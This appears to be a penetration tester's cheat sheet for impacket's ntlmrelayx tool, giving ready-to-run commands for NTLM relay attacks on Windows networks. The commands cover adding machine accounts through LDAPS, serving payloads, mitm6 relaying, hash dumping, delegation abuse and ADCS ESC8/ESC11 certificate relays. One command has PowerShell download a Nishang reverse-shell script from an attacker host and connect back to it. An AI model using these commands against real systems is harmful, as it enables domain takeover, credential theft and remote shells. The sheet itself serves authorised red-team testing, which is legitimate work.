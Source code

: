# ntlmrelayx (imp)

% impacket-mitm, windows, smb, 445

#plateform/linux  #target/remote #cat/ATTACK/RELAY
## add computer
```
ntlmrelayx -t ldaps://<dc1> -smb2support --remove-mic --add-computer <computer_name> <computer_password> --delegate-access
```
## host a payload that will automatically be served to the remote host connecting
#plateform/linux #target/serve #cat/ATTACK/MITM 

```
ntlmrelayx.py -tf <targets_file> -smb2support -e <payload_file|payload.exe>
```

## reverseshell (nishang)
#plateform/linux #target/serve #cat/ATTACK/MITM 
Or powershell -e base64_string
```
ntlmrelayx.py -tf <targets_file> -smb2support -c "powershell -c IEX(New-Object NET.WebClient).DownloadString('http://<ip>:<http_port>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <ip> -Port <rport>"
```

## socks
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -tf <targets_file> -socks -smb2support
```

## authenticate and dump hash
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -tf <targets_file> -smb2support
```

## to use with mitm6 - relay to target
#plateform/linux #target/serve #cat/ATTACK/MITM 
Next use the socks with proxychains : 
proxychains smbclient //ip/Users -U domain/user

```
ntlmrelayx.py -6 -wh <attacker_ip> -t smb://<target> -l /tmp -socks -debug
```

## to use with mitm6 - delegate access
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -t ldaps://<dc_ip> -wh <attacker_ip> --delegate-access
```


## ADCS relay attack ESC8
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -t http://<ca_ip>/certsrv/certfnsh.asp -smb2support --adcs --template <template>
```

## ADCS relay attack ESC11
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -t rpc://<ca_ip> -rpc-mode ICPR -icpr-ca-name <ca_name> -smb2support
```